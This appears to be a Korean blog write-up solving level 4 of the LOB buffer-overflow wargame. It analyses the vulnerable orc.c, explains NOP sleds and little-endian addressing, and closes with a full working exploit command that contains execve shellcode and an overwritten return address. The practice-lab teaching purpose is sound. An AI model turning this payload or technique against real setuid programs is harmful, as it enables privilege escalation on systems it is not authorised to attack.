 ```yaml
---
title: BOF/ LOB-level4(goblin)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 4(gremlin)
**ID : goblin**  
**PASSWD : hackers proof**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level4/1.PNG)  
사용자 orc의 권한의 orc파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 orc의 권한으로 파일을 실행할 수 있다.**  
**orc파일이 쉘을 실행시키도록 한다면 사용자 orc의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

{% endhighlight %}  

**orc.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
4. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**[LOB(level1)](https://limjunho.github.io/2019/09/29/LOB-level1(gate).html)와 같이 buffer의 주소를 구해서 풀이하는 방법이 있다.**  
**이 포스팅에서는 NOP sled기법을 이용해 풀이**  

what is NOP sled? - NOP는 No-OPeration의 약자로 말 그대로 실행할 명령어가 없어 다음 명령어로 넘어간다.  
여기에 Sled(썰매)를 붙인 말로 고의적으로 실행흐름을 흘려 보내는 기법이다.  

Why use NOP Sled?  
임의의 메모리를 참조하게 되면 해당 위치에 무조건 악의적인 행위를 실행 하는 코드가 있을 수만은 없다.  
**gdb를 이용하여 디버깅을 하게 되면 한번 복사되어 들아가기 때문에 실제 프로세스 주소와 차이가 있다.**  
그래서 NOP Sled를 이용하면 RET에 변조한 주소에 악성코드가 없으면 자연스럽게 실행흐름을 타고 내려가 악성코드를 포함하고 있는 위치로 가게 되는 것이다.  

#### level4에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### argc가 2개미만의 경우에만 err를 발생시키기 때문에 이를 취약점으로 이용.  
**argv[2]에 많은양의 NOP과 쉘코드를 전달하고 적당한 NOP의 주소를 RET에 변조**  

### disassemble  

**쉘코드의 주소를 정확히 몰라도 적당히 NOP이 있는 주소를 알면 쉘코드가 실행될 것이기 때문에 NOP의 주소를 얻기 위해 디버깅을 한다.**  
권한문제가 없도록 orc를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림2](/assets/LOB/level4/2.PNG)  
disassemble 결과

![그림3](/assets/LOB/level4/3.PNG)  
**NOP이 있는 곳의 주소를 확인하기 위해 main함수의 종료 전에 BreakPoint를 걸고 첫 번째 인자로는 A 44개와 \xbf\xbf\xbf\xbf, 두 번째 인자로는 200개의 NOP과 B를 41개 전달한다.**   

esp - 스택의 최상단을 가리키는 포인터  
**b - break명령, r - run명령, x/[범위]wx - 메모리 상태 검사명령(주소 범위 만큼 16진수로 4Byte단위로 출력)**   

![그림4](/assets/LOB/level4/4.PNG) 
**두 번째 인자로 전달한 NOP과 B의 ascii값 42를 확인할 수 있다. -> 적당히 NOP이 들어있는 중간주소 = 0xbffffbc8**  

### Attack  

NOP의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./orc [dummy] + [NOP주소] [NOP] + [shellcode]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**
**또한 RET에 덮을 NOP의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level4/5.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./orc `python -c "print 'A'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```